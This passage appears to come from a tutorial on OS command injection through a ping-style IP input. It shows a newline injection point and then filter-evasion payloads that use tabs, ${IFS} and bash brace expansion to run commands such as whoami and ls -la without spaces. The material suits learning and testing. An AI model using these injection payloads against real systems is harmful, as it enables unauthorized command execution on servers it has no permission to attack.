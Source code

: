 ```
127.0.0.1%0a
```

✅ The command executes and returns the ping result, confirming newline is a valid injection point.
## Space Bypass Techniques

Once you have an injection point (e.g., newline), the next challenge is replacing space characters between command arguments.
### 1. Using Tabs (`\t` / `%09`)

Both Linux and Windows treat tabs like spaces in most command-line contexts.

Payload:

```
127.0.0.1%0a%09whoami
```

✅ Result: Command runs successfully
### 2. Using `${IFS}` (Internal Field Separator)

In Unix/Linux, the `$IFS` environment variable defines delimiters — its default value includes space and tab.

Payload:

```
127.0.0.1%0a${IFS}whoami
```

✅ Result: Command runs, space bypassed via `${IFS}`
### 3. Using Bash Brace Expansion

Brace expansion allows you to avoid spaces by wrapping command and arguments inside curly braces:

Syntax:

```bash
{command,arg1,arg2}
```

Local Test:

```bash
{ls,-la}
```

✅ Bash expands this to: `ls -la`

Payload Example:

```
127.0.0.1%0a{ls,-la}
```

✅ Command runs without any space character
### Summary: Space Bypass Techniques
